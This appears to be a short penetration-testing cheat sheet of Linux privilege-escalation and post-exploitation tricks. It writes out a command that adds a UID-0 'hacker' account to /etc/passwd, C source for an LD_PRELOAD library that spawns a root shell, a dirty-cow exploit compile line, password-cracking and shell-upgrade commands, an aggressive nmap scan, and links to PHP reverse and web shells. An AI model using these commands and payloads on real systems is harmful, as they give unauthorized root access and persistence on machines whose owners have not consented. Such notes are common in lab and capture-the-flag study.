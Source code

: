 # Tracking the Various Tips and Tracks learned along the way


### Adding a user to /etc/passwd  

```bash
echo hacker:$(( echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> passwd
tar -cvf passwd.tar passwd
tar -xvf passwd.tar -C /etc/
```

### Finding SUID   

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -4000 2>/dev/null`

  
### Compiling a shell  

```c
/*
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
used to LD_PRELOAD shell.so
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

`gcc cowroot.c -o cowroot -pthread`
### Cracking Passwords with John  

- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format:RAW-SHA1`
- `john --list=formats`
- [Hash Formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)
- [hash-identifier](https://hashes.com/en/tools/hash_identifier)

### Cracking Passwords with Hashcat

- [Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Upgrading a shell

- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`

### Reverse Shells

- https://github.com/flozz/p0wny-shell
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Nmap Scans

- `sudo nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p-`

### File Transferring

- `python3 -m http.server 80`
